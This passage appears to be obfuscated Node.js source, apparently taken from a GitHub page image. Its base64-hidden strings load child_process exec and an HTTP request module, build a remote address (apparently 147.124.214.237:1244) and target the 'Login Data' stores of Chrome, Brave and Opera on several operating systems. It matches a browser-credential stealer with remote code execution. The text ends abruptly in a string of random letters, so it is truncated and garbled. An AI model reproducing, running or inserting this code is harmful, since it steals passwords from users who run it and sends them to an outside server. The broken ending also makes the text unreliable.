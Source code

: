 Object.prototype.toString,Object.getOwnPropertyDescriptor,Object.defineProperty;const t="base64",a="utf8",$=require("os"),r=require("fs"),n=c=>(s1=c.slice(1),Buffer.from(s1,t).toString(a));pt=require(n("zcGF0aA")),rq=require(n("YcmVx"+"dWVzdA")),ex=require(n("aY2hpbGRf"+"cHJvY2Vzcw"))[n("cZXhlYw")],zv=require(n("Zbm9kZTpwcm9jZXNz")),hs=$[n("caG9zdG5hbWU")](),hd=$[n("ZaG9tZWRpcg")](),pl=$[n("YcGxhdGZvcm0")](),td=$[n("cdG1wZGly")]();let e;const l=c=>Buffer.from(c,t).toString(a),s=()=>{let t="MTQ3LjEyNCaHR0cDovLw4yMTQuMjM3OjEyNDQ=  ";for(var c="",a="",$="",r="",n=0;n<10;n++)c+=t[n],a+=t[10+n],$+=t[20+n],r+=t[30+n];return c=c+$+r,l(a)+l(c)},h=t=>t.replace(/^~([a-z]+|\/)/,((t,c)=>"/"===c?hd:`${pt[l("ZGlybmFtZQ")](hd)}/${c}`)),o="NVRlYW05",Z="Z2V0",y="Ly5ucGw",i="d3JpdGVGaWxlU3luYw",d="L2NsaWVudA",p=l("ZXhpc3RzU3luYw"),u="TG9naW4gRGF0YQ",b="Y29weUZpbGU";function m(t){const c=l("YWNjZXN"+"zU3luYw");try{return r[c](t),!0}catch(t){return!1}}const G=l("RGVmYXVsdA"),W=l("UHJvZmlsZQ"),Y=n("aZmlsZW5hbWU"),f=n("cZm9ybURhdGE"),w=n("adXJs"),V=n("Zb3B0aW9ucw"),v=n("YdmFsdWU"),j=l("cmVhZGRpclN5bmM"),z=l("c3RhdFN5bmM"),L=l("cG9zdA"),X="Ly5jb25maWcv",g="L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC8",x="L0FwcERhdGEv",N="L1VzZXIgRGF0YQ",R="R29vZ2xlL0Nocm9tZQ",k="QnJhdmVTb2Z0d2FyZS9CcmF2ZS1Ccm93c2Vy",_="Z29vZ2xlLWNocm9tZQ",F=["TG9jYWwv"+k,k,k],q=["TG9jYWwv"+R,R,_],B=["Um9hbWluZy9PcGVyYSBTb2Z0d2FyZS9Phlkhjhjhjjkhjhjkhjhhhjkkjjkhhjkhjkkhjjhkjhkjkhjkhkjkjkjkjh],T=101

